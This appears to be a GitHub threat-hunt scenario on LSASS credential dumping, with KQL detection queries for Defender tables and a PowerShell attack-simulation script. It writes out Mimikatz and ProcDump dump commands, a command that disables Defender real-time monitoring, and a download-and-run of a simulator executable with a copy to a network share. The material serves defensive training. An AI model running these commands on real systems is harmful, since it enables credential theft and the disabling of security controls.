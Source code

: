 # Threat Event: Credential Dumping via LSASS Access  
**Unauthorized Access to LSASS for Credential Dumping**

---

## Reason for Threat Hunt

### 🚨 Recent Cybersecurity Advisory from CISA  
CISA issued a bulletin warning of increased credential theft activity leveraging tools like **Mimikatz** and **ProcDump** that target **LSASS (Local Security Authority Subsystem Service)**.  
As a result, **management has directed a proactive threat hunt** to identify signs of credential dumping in the environment.

---

## Steps the "Bad Actor" Took – Logs and IoCs Created

1. **Downloaded credential dumping tool**
   - E.g., `mimikatz.exe`, `debug.exe`, `procdump.exe`
   - Often disguised with benign names

2. **Disabled Security Controls (optional)**
   - Example: `Set-MpPreference -DisableRealtimeMonitoring $true`

3. **Executed the Credential Dump**
   - `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"`
   - Or: `procdump.exe -ma lsass.exe lsass.dmp`

4. **Extracted the Dump**
   - File: `lsass.dmp`
   - Transferred via SMB, FTP, or outbound connection

---

## Tables Used to Detect IoCs

| Table Name              | Description                                                                 |
|------------------------|-----------------------------------------------------------------------------|
| `DeviceProcessEvents`   | Detects execution of tools and interactions with LSASS                      |
| `DeviceFileEvents`      | Monitors creation of files like `lsass.dmp`                                 |
| `DeviceImageLoadEvents` | Tracks DLLs or suspicious modules loaded by credential dumping tools       |
| `DeviceNetworkEvents`   | Flags data exfiltration via public IPs from malicious processes             |
| `DeviceRegistryEvents`  | Detects changes to security/AV-related registry keys                        |

---

## Related Queries

```kusto
// LSASS memory dump attempt using ProcDump
DeviceProcessEvents
| where ProcessCommandLine has_all ("procdump", "lsass")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine

// Execution of Mimikatz
DeviceProcessEvents
| where ProcessCommandLine has_any ("mimikatz", "sekurlsa", "logonpasswords")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine

// Detection of lsass.dmp or similar file
DeviceFileEvents
| where FileName in~ ("lsass.dmp", "lsass.zip")
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessCommandLine

// DLLs loaded by mimikatz or other malicious tools
DeviceImageLoadEvents
| where InitiatingProcessFileName has "mimikatz"
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, SHA256

// Public outbound network activity from suspicious tools
DeviceNetworkEvents
| where InitiatingProcessFileName has_any("mimikatz.exe", "procdump.exe")
| where RemoteIPType == "Public"
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteIP, RemotePort, Protocol
```

## 👤 Created By

* **Author**: Aduragbemi
* **LinkedIn**: [Aduragbemi Oladapo](https://www.linkedin.com/in/aduragbemioladapo/)
* **Date**: June 25, 2025

---

## ✅ Validated By

* **Reviewer**: *TBD*
* **Contact**: *TBD*
* **Date**: *TBD*

---
✅ PowerShell Steps to Simulate the Credential Dump Simulation

```Powershell

# Simulate download of a known credential dumping tool
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri "https://raw.githubusercontent.com/aduragbemioo/Threat-Hunt-Scenario-Credential-Dumping-via-LSASS-Access/refs/heads/main/mimi-sim.exe" -OutFile "$env:USERPROFILE\Downloads\mimi-sim.exe"

# Simulate disabling Windows Defender (for detection/log creation only — doesn't actually succeed if Defender is enabled)
powershell.exe -ExecutionPolicy Bypass -Command "Set-MpPreference -DisableRealtimeMonitoring $true" | Out-Null

# Simulate credential dumping execution (e.g., mimikatz or procdump against lsass)
powershell.exe -ExecutionPolicy Bypass -Command Start-Process -FilePath "$env:USERPROFILE\Downloads\mimi-sim.exe" -ArgumentList '"sekurlsa::logonpasswords"' -WindowStyle Hidden

# Simulate creation of LSASS dump file
New-Item -Path "$env:USERPROFILE\Desktop\lsass.dmp" -ItemType File -Force | Out-Null
powershell.exe -ExecutionPolicy Bypass -Command Set-Content -Path "$env:TEMP\lsass.dmp" -Value "This is a simulated memory dump of LSASS."

# Simulate file exfiltration by copying to a network share or USB (fake path)
powershell.exe -ExecutionPolicy Bypass -Command Copy-Item "$env:USERPROFILE\Desktop\lsass.dmp" -Destination "\\192.168.1.99\shared\lsass.dmp" -Force


# Clean up simulated artifacts (optional)
Start-Sleep -Seconds 5
powershell.exe -ExecutionPolicy Bypass -Command Remove-Item "$env:TEMP\lsass.dmp" -Force
powershell.exe -ExecutionPolicy Bypass -Command Remove-Item "$env:USERPROFILE\Downloads\mimi-sim.exe" -Force


```

## 📅 Revision History

| Version | Changes       | Date          | Modified By                |
| ------- | ------------- | ------------- | -------------------------- |
| 1.0     | Initial Draft | June 25, 2025 | Aduragbemi Oladapo |

---
